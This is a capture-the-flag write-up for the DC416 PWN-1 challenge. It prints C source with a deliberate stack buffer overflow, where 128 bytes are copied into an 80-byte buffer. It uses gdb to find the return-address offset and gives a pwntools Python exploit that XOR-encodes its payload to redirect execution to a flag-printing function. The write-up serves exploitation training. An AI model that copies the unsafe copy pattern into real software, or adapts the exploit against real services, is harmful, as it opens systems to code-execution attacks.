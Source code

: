 ## DC416 Rapid-fire CTF: PWN-1

> The challenge to exploit is listening on localhost port 10000
> 
> A duplicate challenge that you can attach gdb to is listening on localhost port 10011
> 
> Additional tools that might come in handy:
> 
> * pwntools
> * gdb-peda
> 
> Good luck!

Let's try connecting to port 10000 to see how the binary behaves. 

![](images/01.png)

If we look at the output, we notice a few things: 

* A random number `k` is printed out
* The same input we send is returned encoded

Given the name of the challenge, we can assume that it's XOR encoded. 

The source code for the pwnable is provided, so let's have a look at what we're dealing with: 

```
/*
 * DC416 Rapid Fire CTF Pwnable
 * by superkojiman
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <time.h>

void win() {
    FILE *f;
    char buf[30];
    f = fopen("/home/xormaster/flag.txt", "r");
    memset(buf, 0, sizeof(buf));
    fgets(buf, sizeof(buf), f);
    printf("Flag: %s\n", buf);
}

int vuln(char *s, int n) {
    char buf[80]; 
    memset(buf, 0, sizeof(buf)); 
    memcpy(buf, s, n); 
    puts("Did you win?"); 
    return 0; 
}

void xormaster(char *s, int n, int k) {
    int i = 0; 
    for (i = 0; i < n; i++) {
        s[i] = (char)(s[i] ^ k); 
    }
}

int main(int argc, char *argv[]) {
    char buf[0x80]; 
    int n = 0; 
    int k = 0; 

    setbuf(stdout, 0); 
    setbuf(stderr, 0); 

    srand(time(0)); 
    k = rand() % 20 + 1; 

    printf("k is %d\n", k); 

    memset(buf, 0, sizeof(buf)); 
    n = read(0, buf, sizeof(buf)); 

    xormaster(buf, n, k); 
    printf("Encoded input: %s\n", buf); 
    vuln(buf, n); 

    return 0;
}
```

Two functions immediately stand out; `win()`, and `vuln()`. The former opens `flag.txt` and prints out its contents, so this is where we want to go. The latter implies that this funcion is vulnerable to something. Let's take a closer look at what `main()` is doing. 

Here we have an array of 0x80 bytes, which is 128 bytes. 

```
char buf[0x80];
int n = 0;
int k = 0;
```

Next a random number from 1 to 20 is generated and assigned to `k`.

```
srand(time(0));
k = rand() % 20 + 1;

printf("k is %d\n", k);
```

128 bytes is read from the user and stored into the `buf` array. `buf` is then passed into the `xormaster()` function which does something to it, and finally `buf` is passed into `vuln()`. 

```
memset(buf, 0, sizeof(buf));
n = read(0, buf, sizeof(buf));

xormaster(buf, n, k);
printf("Encoded input: %s\n", buf);
vuln(buf, n); 
```

Let's take a look at what `xormaster()` does to our input:

```
void xormaster(char *s, int n, int k) {
    int i = 0;
    for (i = 0; i < n; i++) {
        s[i] = (char)(s[i] ^ k);
    }
}
```

So basically it just iterates through our input and XORs each character with the random value `k`. This encoded buffer and the size of our input is then passed to `vuln()`, so let's see what `vuln()` does:

```
int vuln(char *s, int n) {
    char buf[80];
    memset(buf, 0, sizeof(buf));
    memcpy(buf, s, n);
    puts("Did you win?");
    return 0;
}
```

Here we have an array of 80 bytes (not 0x80 like in `main()`!) and our input is copied into it. So we have a vanilla buffer overflow where we can effectively copy 128 bytes into an 80 byte buffer. This should allow us to overwrite the saved return pointer and allow us to return into `win()`. Let's verify it.

An instance we can debug is listening on port 10011. We just need to connect to it using `nc` and then attach `gdb` to the newly spawned `xormaster` process that belongs to our user. 

![](images/02.png)

Here's the disassembly for `vuln()`.

![](images/03.png)

Let's set a breakpoint at `vuln()+57` which is the call to `memcpy()`. Then continue the running the process. We'll enter some input and it should break at `vuln()` at some point. 

![](images/04.png)

So we know from `memcpy()`'s parameters that the first argument is the destination buffer (in this case an 80 byte array), the second argument is the source buffer (in this case, our input buffer that can go up to 128 bytes in size), and the third argument is the size of our input buffer. 

* destination buffer address: 0x7ffee1d95580
* source buffer address: 0x7ffee1d955f0
* size of source buffer: 0x9

Let's figure out where the saved return pointer is. It's 8 bytes past the saved frame pointer, so we can just pull that up:

![](images/05.png)

So the saved return pointer is at `0x7ffee1d955d8`. In order to figure out how many bytes we need to send in order to overwrite it, we just need to subtract the address of the destination source buffer from the address of the saved return pointer: 

![](images/06.png)

The offset is 88 bytes. If we send 88 bytes followed by the address of `win()`, then `vuln()` will return to `win()` and print out the flag. Let's quickly grab the address of `win()`:

![](images/07.png)

However there's a twist! Recall that the buffer we send gets XOR encoded first before it gets passed into `vuln()`. This means we'll need to decode the buffer so that the saved return pointer gets overwritten with the correct value. How do we do that? 

XOR has the following properties:

```
encoded = plain ^ key
plain   = encoded ^ key
```

The key is printed out to us when we first connect to the service. We can encode our input with the key first before sending it to the service so that it gets decoded when it gets passed to the `xormaster()` function. Lets put together some exploit code:

```
#!/usr/bin/env python
from pwn import *

b = ""
b += "A"*88
b += p64(0x400886)

r = remote("localhost", 10011)
raw_input("Attach gdb to the process now...")

k = r.recv().split()[-1]
print "K:", k

e = ""
for i in b:
    e += str(chr(ord(i) ^ int(k,10)))

r.sendline(e)

print r.recvall()
```

The above will create a payload of 88 bytes followed by the address of `win()`. We then connect to the service and pause the script to give us a chance to attach to the process and set a breakpoint at `vuln()+78`, which is the `ret` instruction. 

Next we read the key and use it to XOR encode each byte in our payload. We send the payload to the service and we should hit the breakpoint here. Let's see how it looks: 

![](images/08.png)

We've successfully overwritten the saved return pointer and `ret` will now return to `win()` and give us our flag. Let's clean up the code so that it removes the pause for attaching gdb, and make sure it connects to the correct port before running it again. We should receive the flag: 

![](images/09.png)
